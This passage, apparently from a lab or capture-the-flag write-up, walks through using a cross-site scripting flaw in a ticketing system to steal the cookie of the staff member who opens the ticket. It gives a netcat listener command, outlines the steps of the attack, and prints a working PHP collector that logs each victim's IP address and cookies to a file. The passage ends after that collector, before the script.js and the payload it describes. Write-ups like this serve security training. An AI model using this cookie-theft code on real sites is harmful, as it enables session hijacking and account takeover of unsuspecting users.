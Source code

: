 {% tab title="2. Listener" %}
```bash
nc -lvnp 1337
```
{% endtab %}
{% endtabs %}

<div align="center">

<figure><img src="../../../.gitbook/assets/xss_test.png" alt="" width="554"><figcaption><p>Figure 2: Testing XSS.</p></figcaption></figure>

</div>

Next, we will **steal the cookie** of the person who will process our ticket (Figure 3).

1. Create a script (`index.php`) that will expand the stolen cookie.
2. Create another script (`script.js`) that will steal the user's cookie, request `index.php` and pass it as a value to `index.php`.&#x20;
3. Pass a payload that will request `script.js`.

{% tabs %}
{% tab title="index.php" %}
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
```
{% endtab %}
